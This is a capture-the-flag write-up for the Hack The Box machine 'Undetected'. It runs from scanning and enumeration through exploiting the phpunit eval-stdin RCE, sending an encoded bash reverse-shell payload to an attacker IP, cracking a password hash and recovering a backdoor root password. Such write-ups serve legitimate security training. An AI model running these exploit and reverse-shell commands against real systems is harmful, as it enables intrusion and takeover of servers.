

# [Undetected](https://app.hackthebox.com/machines/undetected)

```bash
nmap -p- --min-rate 10000  10.10.11.146 -Pn 
```


After knowing open ports (22,80) let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.146 -Pn 
```


Let's do subdomain enumeration.

```bash
wfuzz -u http://10.10.11.146 -H "Host: FUZZ.djewelry.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 15283
```


Let's add this ip address into '/etc/hosts' file.


Let's do directory enumeration.

```bash
gobuster dir -u http://store.djewelry.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40 -x txt
```


I just see the version of 'phpunit' that is vulnerable to publicly known exploit (RCE).

```bash
curl -s 'http://store.djewelry.htb/vendor/composer/installed.json' | jq -c '.[] | [.name, .version]'
```


That's vulnerability called [CVE-2017-9841](https://www.exploit-db.com/exploits/50702).

Let's use this.

```bash
curl 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("id"); ?>'
```


Let's add reverse shell payload into here.

```bash
echo "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1" | base64 -w 0  #save this for then
```


Then make a browsing request to work your RCE.

```bash
curl 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzEzMzcgMD4mMQo=|base64 -d|bash"); ?>'
```

I got reverse shell from port (1337).


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

After enumeration, I find '/var/backups/info' , that's detected by `linpeas.sh`

I just read this via `cat` command.


I take the value which passes from `/bin/bash` 's command -c argument, and read this via `xxd -r -p` command.

```bash
echo data | xxd -r -p
```


I got password hash from here as below.

```bash
$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/
```


Let's crack this via `john` tool.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Let's login into 'steven1' account via password which we grabbed.

steven1: ihatehackers


While reading `/usr/bin/sshd` binary file as executable via reverse engineering tools, I see 'backdoor' variable in many times.




While I decrypt this via using [Cyberchef](https://cyberchef.io/)


I got password of 'root' user.

root: @=qfe5%2^k-aq@%k@%6k6b@$u#f*b?3


root.txt

